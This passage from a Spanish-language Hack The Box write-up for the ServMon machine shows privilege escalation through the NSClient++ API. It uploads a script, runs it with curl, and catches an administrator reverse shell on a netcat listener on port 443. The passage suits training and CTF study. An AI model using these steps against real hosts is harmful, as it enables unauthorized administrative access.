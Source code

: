 ![addScriptAPI](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/servmon/addScriptAPI.png)

Acá usamos **PUT** para "poner", indicándole donde está el archivo y donde queremos subirlo, en este caso en `/scripts`.

Ahora, como hacemos para ejecutarlo, buscando y buscando, en la documentación hace referencia a `/queries`, en los cuales dentro de cada uno hay unos atributos y comandos, uno de ellos tiene una instrucción de **ejecución**. Veamos que *queries* hay.

```bash
$curl -k -i -u admin https://localhost:8443/api/v1/queries/
```

![queriesGeneralAPI](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/servmon/queriesGeneralAPI.png)

Al final vemos que se creó un tipo **JSON** con información relacionada con nuestro script.

![queryScriptAPI](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/servmon/queryScriptAPI.png)

Ya se ve el comando `execute` y hace referencia al script agregado.

```txt
"execute_url":"https://localhost:8443/api/v1/queries/queesesto/commands/execute"
```

#### > Ponernos en escucha mediante **nc (netcat)**.

Finalmente, poniéndonos en escucha en nuestra máquina por el puerto **443**, que fue el que definimos en el *.bat* obtendremos la Shell.

```bash
$nc -lnvp 443
```

#### > Ejecutar el script con la ayuda de la **API**.

```bash
$curl -k -i -u admin https://localhost:8443/api/v1/queries/queesesto/commands/execute
```

#### > Conseguir la Shell como Administrador.

![ncOKAdmin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/servmon/ncOKAdmin.png)

Y... estamos dentro como usuario administrador :)))))

> Debo decir que amé esta forma de intrusión.

...

![last11charsAdmin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/servmon/last11charsAdmin.png)

Buena maquina, en su momento estaba muy lenta y además las personas por seguir el exploit de internet al pie de la letra pues reseteaban la máquina, lo cual hacia peor el proceso. Pero bueno, encantado y muchas gracias por leer.